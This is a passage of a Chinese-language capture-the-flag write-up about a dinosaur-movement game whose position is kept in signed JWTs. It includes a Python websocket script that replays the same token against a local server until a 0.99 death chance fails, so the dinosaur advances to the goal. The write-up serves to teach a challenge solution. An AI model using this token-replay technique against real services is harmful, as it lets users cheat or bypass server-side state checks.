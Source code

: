 而且JWT的使用并不存在问题，而移动的方向和目前所在的问题通过JWT进行存储，这样的话我们并不能篡改服务端在我们做出行动后返回的JWT,因此不可能直接让恐龙到达终点`(32,32)`，但是因为恐龙是有`0.99`的概率死亡，因此在移动到`(16,17)`可以尝试不停的发送一个JWT,直至服务端没有判断到这`0.99`的概率，返回一个存储了位置为`(17,17)`的JWT,然后再一直发这个JWT,来让恐龙最终到达右下角。

> https://blog.hamayanhamayan.com/entry/2022/06/13/193106

参考文章中的脚本可以复现题目。

```python
import asyncio
import websockets
import json

ix = 0
iy = 0
start_token = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwb3NpdGlvbiI6eyJ4IjowLCJ5IjowfSwiZGVhZCI6ZmFsc2UsImtleSI6Im8veGtOd04yRWF4ZzFHVTBteWlLWDZZWFJISitET0JPRjVrUW1BdlE0Tzg9IiwibmFtZSI6InNkZnNkZnNhZGYiLCJpYXQiOjE2NjY3NTc1OTV9.kfT0DOkikYTkTKVN_q4Ny7NwEsyYkivVSTOxDWoskEcWslvhqweSX9qlIZqJTZgtR7YUHv9fEX5x9z5ekHdvyr81EAuWG6lvxX5FC9ngxVb6vKQ-T4tGetE5MTQYqA8bs39rGN4suVXH5ZMHSrpTaNgr99bnDjkytJNFT-XgE3kYKEmJRQ0KcNk703GGNx0qhqRmwPXjtD1nhJ7F8S6W6frCh7_V-JGedbv9ieDsdUR-NmOdRg2kevWRNwzrAMj0NkZubdd92nFsWj-N3N8L0yiKG41WG2gDLPIuRCpIZTPDCCt7G5u7En6i2zzMOvfUSjJRHvZ8JPQIWhe6TP3LAA"

async def solve():
    uri = "ws://127.0.0.1:1004"
    async with websockets.connect(uri) as websocket:
        token = start_token
        i = ix + iy
        failed = 0

        while i < 31 * 2:
            com = "right" if i % 2 == 0 else "down"
            data = {"command": com, "token": token}
            await websocket.send(json.dumps(data))
            for _ in range(10):
                resp = json.loads(await websocket.recv())
                print(resp)
                if resp['command'] != "state":
                    break
            if resp['dead']:
                failed += 1
                # print(f"NG!{failed}", end="")
                # sys.stdout.flush()
            else:
                token = resp['token']

                i += 1
                x = i // 2 + i % 2
                y = i // 2
                failed = 0

                print(f"\nOK! You can move! x:{x} y:{y} token:{token}")
            await asyncio.sleep(0.1)

asyncio.get_event_loop().run_until_complete(solve())
```
